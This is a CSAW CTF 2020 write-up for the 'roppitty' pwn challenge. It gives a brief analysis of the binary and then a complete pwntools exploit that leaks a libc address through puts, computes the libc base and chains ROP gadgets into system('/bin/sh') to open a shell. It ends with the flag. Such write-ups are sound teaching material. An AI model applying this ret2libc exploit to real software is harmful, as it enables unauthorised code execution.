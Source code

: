 # CSAW CTF QUALS 2020: Pwn: roppitty
</br>**Category:** Pwn/Binary exploitation **Points:** 50 points
</br></br>
**Description:**</br>
Welcome to pwn!
</br>

## Solution

The challenge gives us a binary (**rop**) and a libc (**libc-2.27.so**).

```
$ file rop
rop: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=5d177aa372f308c07c8daaddec53df7c5aafd630, not stripped
```

Now we know that the binary is an **ELF 64-bit LSB executable**, which means that it's architecture is 64-bit, is **dynamically linked**, it only fetched the libc for what it needs, making the binary smaller and is **not stripped**, so it has debugging information.

By the name of the challenge and the binary we can guess that we're gonna have to use the Return Oriented Programming (ROP) technique in order to exploit the binary.

ROP is a technique that executes machine instructions sequences (called "gadgets") that are in a subroutine within the program and/or shared libraries code, to gain control of the flow of the program. 

Let's run the binary and see what it does:
```
$ ./rop
Hello

```

It prints `Hello` ask for input and exits.

### Exploit

```python
from pwn import *

local = True
debugging = False

context(arch='amd64', os='linux')
host, port = 'pwn.chal.csaw.io', 5016
binary = './rop'
elf = ELF(binary)
libc = ELF('./libc-2.27.so')

if local:
    p = process(binary)
else:
    p = remote(host, port)

def debug(bps):
    gdbscript = ''
    for bp in bps:
        gdbscript += 'b *0x{:x}'.format(bp)
    gdb.attach(p, gdbscript=gdbscript)

if debugging:
    debug([0x400611]) # 0x400611 vuln()'s ret instruction


# Find the length of padding
"""
p.recvline() # 'Hello'
payload = cyclic(1024)
p.sendline(payload)
"""
padding_len = cyclic_find('kaaa')

# Find libc's puts address by calling puts@plt with puts@got as it's argument and calling main so we can eploit the program again
p.recvline() # 'Hello'

padding = b'A' * padding_len
puts_plt = elf.symbols['puts']
puts_got = elf.got['puts']
main = elf.symbols['main']
pop_rdi = 0x400683 # $ ROPgadget --binary ./rop | grep -i 'pop rdi'     ## So we can put puts@got in the rdi register to work as an argument for puts@plt
log.info('puts@plt starts at  ' + hex(puts_plt))
log.info('puts@GOT starts at  ' + hex(puts_got))
log.info('main starts at      ' + hex(main))
log.info('pop rdi; ret; is at ' + hex(pop_rdi))

payload = padding + p64(pop_rdi) + p64(puts_got) + p64(puts_plt) + p64(main)
p.sendline(payload)

puts_libc = p.recvline().strip()
puts_libc = u64(puts_libc.ljust(8, b'\x00'))

# Calculate libc base address, because libc only has the offsets of it's functions.
# So the true function's address will be libc base address + libc.symbols['function_name']
# if we assign an address to libc.address, it does those calculations immediately
libc.address = puts_libc - libc.symbols['puts']

# Call system('/bin/sh') to spawn a shell
p.recvline() # 'Hello'

system = libc.symbols['system']
bin_sh = next(libc.search(b'/bin/sh'))
log.info('system starts at  ' + hex(system))
log.info('/bin/sh starts at ' + hex(bin_sh))

# we do it twice to allign the stack
payload = padding + p64(pop_rdi) + p64(bin_sh) + p64(system) + p64(pop_rdi) + p64(bin_sh) + p64(system) 
p.sendline(payload)

p.interactive()
```

## Flag
>flag{r0p_4ft3r_r0p_4ft3R_r0p}

